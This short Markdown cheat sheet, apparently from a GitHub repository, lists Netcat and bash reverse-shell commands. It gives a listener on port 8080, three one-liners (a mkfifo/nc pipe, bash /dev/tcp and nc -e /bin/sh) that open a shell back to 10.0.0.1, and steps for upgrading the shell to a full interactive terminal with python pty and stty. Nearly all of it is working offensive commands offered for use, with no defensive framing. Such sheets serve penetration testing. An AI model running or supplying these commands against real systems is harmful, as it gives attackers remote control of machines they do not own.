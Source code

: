 # Reverse shells with Netcat

### Listen for incoming connection on port 8080
`nc -lvnp 8080`

### Spawn reverse shell to 10.0.0.1 on port 8080
`rm /tmp/cc;mkfifo /tmp/cc;cat /tmp/cc|/bin/sh -i 2>&1|nc 10.0.0.1 8080 >/tmp/cc`
`bash -i >& /dev/tcp/10.0.0.1/8080 0>&1`
`nc -e /bin/sh 10.0.0.1 8080`

### Upgrade interactive shell with python
1. Import pseudo terminal<br>
`python -c 'import pty;pty.spawn("/bin/bash")'`
2. Background the session [ctrl-z]<br>
`stty size`
`stty raw -echo`
4. Foreground the session<br>
`fg`
5. Set environment variables<br>
`export TERM=xterm`
`export PATH=$PATH:/usr/sbin:/usr/local/sbin:/usr/local/bin:/usr/bin:/sbin:/bin:/usr/games`
`stty rows [x] cols [y]`
`alias ll='ls -lAF --color=auto'`
`alias llf='ls -lAF --color=auto --full-time'`
`alias pyserv='python -m SimpleHTTPServer'`